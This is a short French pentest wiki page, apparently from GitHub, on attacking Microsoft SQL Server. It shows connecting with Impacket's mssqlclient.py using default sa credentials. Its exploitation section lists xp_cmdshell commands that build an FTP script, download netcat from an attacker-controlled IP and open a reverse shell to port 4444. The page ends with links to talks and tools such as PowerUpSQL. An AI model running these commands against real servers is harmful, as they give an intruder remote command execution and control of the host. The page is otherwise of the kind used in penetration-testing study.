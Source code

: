 ```yaml
---
title: Microsoft SQL Server
permalink: /Microsoft_SQL_Server/
---
```


# Microsoft SQL Server

Utilisation
-----------

### Connexion

Impacket posséde un outil *mssqlclient.py*. L'exemple suivant permet de se connecter avec sa/password et d'executer les commandes contenues dans *commands.txt*:

``` bash
mssqlclient.py -port 27900 sa:password@192.168.31.227 -file commands.txt
```

### Commandes utiles

Exploitation
------------

### Créer un reverse shell

Les commandes suivantes créent un reverse shell en téléchargeant netcat depuis un serveur FTP.

``` text
EXEC master.dbo.xp_cmdshell 'echo open 192.168.30.229> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo USER user>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo 12345>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bin>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo GET nc.exe>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bye>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'ftp -v -n -s:ftp.txt';
EXEC master.dbo.xp_cmdshell 'nc.exe -nv 192.168.30.229 4444 -e cmd.exe';
```

Ressources
----------

### Vidéos

-   [DerbyCon 2016 - SQL Server Hacking on Scale using PowerShell - Scott Sutherland](https://www.youtube.com/watch?v=xLbPztByc8M)

### Outils

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
- [SQL Server Link Crawling with PowerUpSQL](https://blog.netspi.com/sql-server-link-crawling-powerupsql/)


